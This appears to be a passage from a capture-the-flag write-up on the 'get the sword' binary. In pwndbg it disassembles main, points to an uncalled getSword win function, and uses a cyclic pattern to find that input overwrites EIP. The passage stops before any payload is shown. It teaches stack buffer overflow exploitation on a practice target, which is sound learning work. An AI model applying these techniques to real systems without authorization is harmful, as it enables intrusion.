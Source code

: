 ```
0x080492e1  __x86.get_pc_thunk.ax
0x080492e8  _fini
pwndbg> 
```

Interesting, according to the challenge name (get the sword) we see a function ```getSword```, well that is an interesting function. But before we get there, let us disassemble the main function.

```
pwndbg> disass main
Dump of assembler code for function main:
   0x080492c0 <+0>:	push   ebp
   0x080492c1 <+1>:	mov    ebp,esp
   0x080492c3 <+3>:	and    esp,0xfffffff0
   0x080492c6 <+6>:	call   0x80492e1 <__x86.get_pc_thunk.ax>
   0x080492cb <+11>:	add    eax,0x2d29
   0x080492d0 <+16>:	call   0x80491b6 <printSword>
   0x080492d5 <+21>:	call   0x8049256 <intro>
   0x080492da <+26>:	mov    eax,0x0
   0x080492df <+31>:	leave
   0x080492e0 <+32>:	ret
End of assembler dump.
```

Okay so now looking at this we can see that main does not really call the function ```getSword```. So this can confirm that it is a win function. Awesome let us now dig for our buffer which will enable us to overwrite adjacent memory.

Using cyclic to generate a pattern ..

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r
Starting program: /home/dexter/the-lab/knights/rev/get_sword 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
You want, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x6f
*EBX  0x61616167 ('gaaa')
*ECX  0xffffcc8c ◂— 0x5d67b300
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x804bef8 —▸ 0x8049180 ◂— endbr32 
*EBP  0x61616168 ('haaa')
*ESP  0xffffcd10 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x61616169 ('iaaa')
──────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x61616169

```